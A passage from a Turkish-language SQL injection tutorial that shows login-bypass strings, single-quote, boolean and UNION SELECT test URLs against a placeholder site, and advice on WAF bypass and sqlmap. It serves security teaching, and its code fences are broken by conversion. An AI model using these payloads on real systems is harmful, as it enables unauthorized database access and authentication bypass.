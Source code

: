 ```sql
username=admin" OR "1"="1"--
username=admin') OR ('1'='1'--


```
📌 SONUÇ
✅ Manuel Testler: URL ve form girişlerinde SQL komutlarını deneyin.
✅ SQLmap ile Test: SQLmap kullanarak POST tabanlı SQLi açıklarını analiz edin.
✅ WAF ve Filtre Bypass: Encoding ve tamper tekniklerini kullanarak güvenlik duvarlarını aşın.

📌 SQL Enjeksiyonu (SQLi) - GET Metodu Üzerinden Saldırı
1️⃣ GET Tabanlı SQL Enjeksiyonu Nedir?
GET metodu, web uygulamalarında URL parametreleri aracılığıyla veri iletmek için kullanılır. Eğer geliştirici girişleri düzgün şekilde filtrelememişse, saldırganlar URL üzerinden SQL sorgularını manipüle edebilir.
📌 Örnek Hedef URL:
```sql
plaintext
```
https://target.com/product.php?id=5

Eğer id parametresi doğrudan SQL sorgusuna ekleniyorsa:
```sql
sql
SELECT * FROM products WHERE id = '5';

```
Bu sorgu, saldırıya açık olabilir.


2️⃣ GET SQLi Testi (Manuel)
Web sitesinin SQL Injection’a karşı savunmasız olup olmadığını anlamak için birkaç temel test yapılabilir.
🔹 1. Tek Tırnak (') ile Test Etme
```sql
plaintext
```
https://target.com/product.php?id=5'
Eğer hata mesajı alırsanız (örneğin MySQL syntax error), hedef SQL Injection’a karşı savunmasız olabilir.
🔹 2. Boolean-Based SQLi Testi
Bu test, farklı ifadelerin TRUE veya FALSE sonuçları verip vermediğini kontrol eder.
✅ Doğru Sonuç Döndürmeli
```sql
plaintext
```
https://target.com/product.php?id=5 AND 1=1
❌ Hata veya Boş Sayfa Döndürmeli
```sql
plaintext
```
https://target.com/product.php?id=5 AND 1=2
Eğer sayfa değişiyorsa, SQL Injection açığı olabilir.
🔹 3. UNION Based SQLi Testi
```sql
plaintext
https://target.com/product.php?id=5 UNION SELECT 1,2,3--
```
📌 Eğer site açık verirse, sayfanın farklı kısımlarında 1, 2, 3 gibi değerleri görebilirsiniz.

